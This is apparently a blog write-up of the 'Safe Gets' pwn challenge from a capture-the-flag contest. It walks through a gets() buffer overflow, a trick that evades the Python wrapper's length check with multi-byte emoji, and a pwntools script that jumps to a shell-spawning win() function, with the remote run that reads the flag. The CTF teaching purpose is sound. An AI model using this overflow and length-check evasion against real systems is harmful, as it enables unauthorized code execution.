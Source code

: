 +++
date = '2025-07-14T09:16:19+02:00'
draft = false 
title = 'Safe Gets'
tags = [ "pwn" ]
+++

description: I think I found a way to make gets safe.
Author: White

We are given a program and a python wrapper around it.  

## Main program

Let's start with the program after a quick pass through ghidra
```C
int main(void)
{
  size_t input_len;
  char buffer [259];
  char local_15;
  int input_len_2;
  ulong i;
  
  gets(buffer);
  input_len = strlen(buffer);
  input_len_2 = (int)input_len;
  for (i = 0; i < (ulong)(long)(input_len_2 / 2); i = i + 1) {
    local_15 = buffer[(long)(input_len_2 + -1) - i];
    buffer[(long)(input_len_2 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```

It's a simple compiled C program that reverses a string, the interesting thing is the call to `gets` that allows us to overflow the buffer overwrite the return pointer and jump to the beautiful `win` function.  
No binary protections are stopping us from doing this except the python wrapper the program is launched from.
```
[*] 'l3ak_ctf/pwn/safe_gets/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## Python wrapper

Most of it doesn't matter for us except this small part that limits the length of the input we provide to 255.
```python
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```

Thus the tricky part is to bypass this limit because we need to write at least 275 chars to have a big enough overflow.  

## Solve

So what does the `len` function count ? It counts unicode codepoints which can be multiple bytes long.  
So I replace the part of my payload responsible for filling up the buffer by 😄 emojis and after solving a stack alignment problem I get a shell and the flag.  

Here is my solve script (the interesting part).
```python
io = start()
payload = flat(
        b"A"*74,
        b"\x00",
        "😄".encode("utf-8")*50,
        b"A"*5,
        pack((elf.symbols.win)+5)
        )
io.sendlineafter(b"Enter your input (max 255 bytes): ", payload)
io.interactive()
```
And when running it we get the flag.
```
>>> ./exploit.py REMOTE 34.45.81.67 16002
[+] Opening connection to 34.45.81.67 on port 16002: Done
[*] Switching to interactive mode
$ cat flag.txt
L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}
[*] Interrupted
[*] Closed connection to 34.45.81.67 port 16002
```

